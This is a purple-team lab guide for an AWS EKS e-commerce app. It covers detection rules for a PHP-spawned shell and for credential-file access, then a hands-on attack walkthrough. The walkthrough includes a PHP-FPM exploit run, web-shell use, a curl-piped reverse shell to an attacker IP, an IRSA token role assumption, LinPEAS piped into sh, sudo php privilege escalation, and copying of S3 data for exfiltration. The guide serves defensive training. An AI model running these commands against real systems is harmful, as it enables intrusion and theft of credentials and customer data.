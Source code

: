 ## Chapter 1: Application Architecture

1. Evaluate the architecture of the applications and different weaknesses that we may want to monitor:

- [Link to graph query](https://app.wiz.io/explorer/graph#%7E%28layers%7E%28%7E%27issues%7E%27lateral_movement%7E%27public_exposure%29%7Eview%7E%27graph%7Equery%7E%28type%7E%28%7E%27KUBERNETES_CLUSTER%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27ecomm-app-cluster%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27SECRET_INSTANCE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27SECRET_DATA%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27USER_ACCOUNT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ENTITLES%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27IAM_BINDING%29%7Ewhere%7E%28accessTypes%7E%28EQUALS%7E%28%7E%27Data%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Ewith%7E%28type%7E%28%7E%27DATABASE%7E%27DB_SERVER%7E%27BUCKET%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%29%7EblockName%7E%27Data*20Access%7EblockExpanded%7Efalse%29%29%29%29%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28select%7Etrue%7EblockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%7Ewhere%7E%28validatedInRuntime%7E%28IS_SET%7Etrue%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27SERVES%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27ENDPOINT%29%7Eselect%7Etrue%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27ACTING_AS%29%29%7Ewith%7E%28type%7E%28%7E%27SERVICE_ACCOUNT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ASSIGNED_TO%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27ACCESS_ROLE_BINDING%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28type%7E%28%7E%27ACCESS_ROLE%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%7E%28type%7E%28%7E%28type%7E%27APPLIES_TO%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27SERVICE_ACCOUNT%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ENTITLES%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27IAM_BINDING%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS%29%29%7Ewith%7E%28type%7E%28%7E%27ACCESS_ROLE_PERMISSION%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Eoptional%7Etrue%7Ewith%7E%28type%7E%28%7E%27BUCKET%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Eselect%7Etrue%29%7Eoptional%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27php%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27nginx%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Eoptional%7Etrue%7Ewith%7E%28blockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%7Eoptional%7Etrue%29%29%7Ewhere%7E%28validatedInRuntime%7E%28IS_SET%7Etrue%29%29%7Eselect%7Etrue%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27SERVES%29%29%7Ewith%7E%28type%7E%28%7E%27ENDPOINT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27elb%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29)

## Chapter 2: Detection Engineering

1. Setup Threat Detection Rule to monitor for a shell spawned from the potentially exploited PHP web app:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** Workload Runtime Rule
- **Name:** Shell executed from php-fpm or php container
- **Description:**
  - The purpose of this threat detection rule is to detect a shell spawned by the vulnerable php web app
- **Severity:** High
- **Event Type:** Process Execution
  - **Process Names:** `dash` `bash` `sh`
- **Actor > + Add Actor**
  - **Process Names:** `php` `php-fpm`
  - **Container Names:** `php`
- **Create Rule**

3. Setup Runtime FIM Rule to monitor for any access of the high privilege AWS credentials that are stored on the container image:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** FIM Rule
- **Name:** Highly privileged AWS credentials file accessed
- **Description:**
- **Severity:** Medium
- **Detection Method:** Runtime FIM
  - Note: Agentless FIM can detect Creation, Deletion, and Modification between agentless scans. However, it cannot detect Open and Permissions Changes, as well as realtime Creation, Deletion, and Modification. Therefore, we are using Runtime FIM only in this case.
- **Monitoring Conditions:**
  - **Directory Paths:** `/root/.aws/`
  - **Include:** `credentials`
  - **Attributes:** Open
  - **Coverage:** Both host and container file systems
- **Create Rule**

## Chapter 3: Purple Team Exercise

![Alt text](../diagrams/images/attack-overview.png)

1. Navigate to the web app in the browser and leave the session open:

- [http://${APP_URL}/index.php](http://${APP_URL}/index.php)

2. Login to attacker box, download public exploit and run it:

```sh
chmod 400 attacker.pem
ssh -i attacker.pem ec2-user@${ATTACKER_IPV4}
go install github.com/neex/phuip-fpizdam@latest
cd ~/go/bin
./phuip-fpizdam http://${APP_URL}/index.php
```

3. Test Shell in Browser:

- Add `?` to the end of the URL in the browser
- Add `a=id`
- Press Enter / Return

  ***

  **NOTE**

  You may have to press enter / return twice in order for the shell to execute.
  The full URL should look like this: http://${APP_URL}/index.php?a=id

  ***

4. Start netcat on Attacker Box:

```sh
nc -lv 1337
```

5. Test Reverse Shell:

- After the `?`, replace `a=id` with:
  - `curl -k https://reverse-shell.sh/${ATTACKER_IPV4}:1337 | sh`

6. In Reverse Shell, run the following commands:\*\*

- **User on container host:**

  - `whoami`

  - **Confirm which host you are on:**

  - `uname -a`

- **Validate IRSA (IAM Role for Service Accounts) Access:**

  Identify the EKS service account token

  ```sh
  cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
  ```

  Break up the JSON Web Token (JWT) into it's parts

  ```sh
  jwt=$(cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
  header=$(echo "$jwt" | cut -d '.' -f1)
  payload=$(echo "$jwt" | cut -d '.' -f2)
  signature=$(echo "$jwt" | cut -d '.' -f3)

  printf "Header:\n"
  printf "%s" "$header" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nPayload:\n"
  printf "%s" "$payload" | tr '_-' '/+' | base64 -d 2>/dev/null || printf "Decoding error\n"
  printf "\nSignature (Base64):\n%s\n" "$signature"
  ```

  Assume Role with the IRSA

  ```sh
  RESPONSE=$(aws sts assume-role-with-web-identity --role-arn "${IRSA_ROLE}" --role-session-name "attacker-session" --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token --output json)
  ```

  Validate the active session

  ```sh
  echo $RESPONSE | jq .
  ```

  Set the environment variables

  ```sh
  export AWS_ACCESS_KEY_ID=$(echo $RESPONSE | jq -r '.Credentials.AccessKeyId');
  export AWS_SECRET_ACCESS_KEY=$(echo $RESPONSE | jq -r '.Credentials.SecretAccessKey');
  export AWS_SESSION_TOKEN=$(echo $RESPONSE | jq -r '.Credentials.SessionToken')
  ```

  Confirm access through session

  ```sh
  aws sts get-caller-identity
  ```

7. List buckets:

- `aws s3 ls`
- `aws s3 ls ${WEB_BUCKET}`
- `aws s3 cp s3://${WEB_BUCKET} /tmp --recursive`

8. Validate the contexts of the file

- `cat /tmp/image.png`

9. Access other credentials file:

   - `cat /root/.aws/credentials/`

10. Test LinPEAS over reverse shell:

- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
- **Can I write anywhere?:**
  - `tmp`
- **What if I run it directly from memory?:**
  - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

11. Use php to escalate privileges:

- GTFObin
  ```sh
  CMD="/bin/bash"
  sudo php -r "system('\$\CMD');"
  ```

12. Validate that you were able to escalate privileges to root:

- `whoami`

13. Access credentials file:

- `cat /root/.aws/credentials`

14. Use credentials to access AWS

- `aws sts get-caller-identity`

15. List Buckets and Objects

    - `aws s3 ls`
    - `aws s3 ls ${CUSTOMER_BUCKET}`

16. Stage Data

    - `aws s3 cp s3://${CUSTOMER_BUCKET} ./ --recursive`

17. Exfiltrate Data
